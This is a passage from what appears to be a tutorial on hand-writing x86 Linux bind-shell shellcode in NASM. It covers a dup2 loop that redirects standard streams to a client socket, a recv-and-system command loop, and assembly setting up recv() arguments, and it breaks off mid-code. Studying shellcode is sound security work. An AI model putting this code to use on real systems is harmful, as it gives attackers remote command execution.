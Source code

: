     ; Redirect this file descriptor (stdin/stdout/stderr) to the Client File descritptor
    mov ecx, DWORD [esp]
    dec ecx

    ; call dup2()
    int 0x80

    ; restore ecx and check if loop is over
    pop ecx
    loop RepeatDuplicate</code></pre><p>In the code above, the <code>loop</code> instruction is used to repeat the routine <code>RepeatDuplicate</code> three times, for <code>error</code> (fd: 2), <code>output</code> (fd: 1), and <code>input</code> (fd: 0).</p><h4 id="command-execution">Command Execution</h4><p>Finally, to have a fully-functional bind shell, we need to convert the following block of code into assembly:</p><pre><code class="language-cpp">// receive data from client (max 1024 bytes)
while ((bytes_read = recv(client_socket_fd, &amp;client_command, 1024, 0)) &gt; 0) {
    // execute client command
    system(client_command);
    memset(client_command, 0, sizeof(client_command));
}</code></pre><p>Follows the syscall numbers:</p>
<ul>
<li><code>recv</code>: invoked via <code>socketcall</code> (<code>SYS_RECV</code>: <code>10</code>)</li>
<li><code>system</code>: it's a wrapper, so we're going to use <code>execve</code></li>
<li><code>memset</code>: there's no syscall</li>
</ul>
<p>It seems we're missing some functions. Therefore, I decided to reimplement it manually:</p>
<figure class="kg-card kg-code-card"><pre><code class="language-nasm">ReceiveData:

    xor ecx, ecx
    mov ebx, ecx
    mov ch, 4
    lea eax, [ReceivedData]

ClearCommandBuffer:

    mov [eax], BYTE bl
    inc eax 
    dec ecx 
    loop ClearCommandBuffer</code></pre><figcaption>Implementation of <code>memset</code>, loop 1024 times in order to clear the buffer</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">    ; 4th argument of recv(): NO flags
    push ebx

    ; 3rd argument of recv(): size of the buffer that stores the command received
    xor ebx, ebx
    inc ebx
    rol bx, 10
    push ebx

    ; 2nd argument of recv(): pointer to the aforementione buffer
    push ReceivedData

    ; Client File Descriptor
    push edi
